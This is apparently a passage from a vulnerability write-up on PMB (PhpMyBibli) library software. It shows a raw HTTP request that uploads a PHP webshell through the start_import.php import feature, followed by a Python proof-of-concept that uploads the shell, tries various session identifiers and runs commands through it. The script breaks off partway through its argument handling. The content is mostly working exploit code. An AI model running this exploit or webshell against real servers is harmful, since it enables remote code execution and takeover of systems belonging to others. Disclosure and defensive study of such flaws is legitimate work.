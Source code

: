 ```http
POST /admin/convert/start_import.php?bidon=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------15247239112720740484965183530
Cookie: PhpMyBibli-LOGIN=admin; PhpMyBibli-SESSID=test
Content-Length: 404

-----------------------------15247239112720740484965183530
Content-Disposition: form-data; name="import_file"; filename="shell.php"
Content-Type: application/x-php


<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
-----------------------------15247239112720740484965183530
Content-Disposition: form-data; name="import_type"

2
-----------------------------15247239112720740484965183530
```

To automate the process of uploading a webshell and executing a command, the following proof of concept was developed. It iterates over various session identifiers to upload a file and subsequently execute it.

```python
#!/usr/bin/env python3
import warnings
warnings.filterwarnings("ignore")
import requests
import argparse
import re

def upload_webshell(url, cookies):
    data = "-----------------------------15247239112720740484965183530\r\nContent-Disposition: form-data; name=\"import_file\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>\n\r\n-----------------------------15247239112720740484965183530\r\nContent-Disposition: form-data; name=\"import_type\"\r\n\r\n2\r\n-----------------------------15247239112720740484965183530\r\n"
    url = "{0}/admin/convert/start_import.php?bidon=1".format(url)
    headers = {"Content-Type": "multipart/form-data; boundary=---------------------------15247239112720740484965183530"}

    r = requests.post(url, headers=headers, cookies=cookies, data=data)
    filename = re.findall('\d{18}shell.php', r.text)
    if filename:
        print("Webshell URL: {0}/temp/{1}".format(args.pmb_url, filename[0]))
        return filename
    
def execute_command(url, filename, command):
    url = "{0}/temp/{1}?cmd={2}".format(url, filename, command)
    r =  requests.get(url)
    return r.text

if __name__ == '__main__':
    parser = argparse.ArgumentParser(prog='', description='File Upload in start_import.php (RCE)', epilog='Text at the bottom of help')
    parser.add_argument('pmb_url', type=str, help='PMB\'s URL (e.g. http://127.0.0.1/pmb or http://127.0.0.1)')
    parser.add_argument('--sessid', type=str, help='PhpMyBibli-SESSID',required=False)
    parser.add_argument('--sessid_list', nargs='+', help='PhpMyBibli-SESSID',required=False)
```